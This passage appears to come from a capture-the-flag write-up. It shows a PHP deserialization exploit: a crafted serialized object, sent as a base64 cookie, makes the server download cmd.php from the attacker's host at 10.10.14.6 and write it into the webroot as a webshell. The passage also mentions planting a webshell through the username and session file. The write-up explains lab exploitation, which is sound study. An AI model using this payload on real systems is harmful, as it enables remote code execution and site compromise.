 Since I want to write a webshell, I'll want to write to the webroot.
Something like `./cmd.php` will work fine.

Getting a webshell is a bit tricker. There are a couple ways I could go
about it. The intended path for the box is to change my username to
include a webshell, and then reference my session file at
`//var/lib/php/sessions/sess_[session id]`.

But `file_get_contents` will also read over the network. So I'll set it
to a URL such as `http://10.10.14.6/cmd.php`.

My final code is:



    <?php

    class Avatar {
        public $imgPath;

        public function __construct($imgPath) {
            $this->imgPath = $imgPath;
        }

        public function save($tmp) {
            $f = fopen($this->imgPath, "w");
            fwrite($f, file_get_contents($tmp));
            fclose($f);
        }
    }

    class AvatarInterface {
        public $tmp;
        public $imgPath;

        public function __wakeup() {
            $a = new Avatar($this->imgPath);
            $a->save($this->tmp);
        }
    }

    $avatar_interface = new AvatarInterface();
    $avatar_interface->tmp = "http://10.10.14.6/cmd.php";
    $avatar_interface->imgPath = "./cmd.php";
    $cookie = base64_encode(serialize($avatar_interface));
    echo $cookie;
    ?>



Running this gives a cookie:



    oxdf@hacky$ php serialized_rce_gen.php | base64 -d
    O:15:"AvatarInterface":2:{s:3:"tmp";s:25:"http://10.10.14.6/cmd.php";s:7:"imgPath";s:9:"./cmd.php";}
    oxdf@hacky$ php serialized_rce_gen.php 
    TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czoyNToiaHR0cDovLzEwLjEwLjE0LjYvY21kLnBocCI7czo3OiJpbWdQYXRoIjtzOjk6Ii4vY21kLnBocCI7fQ==
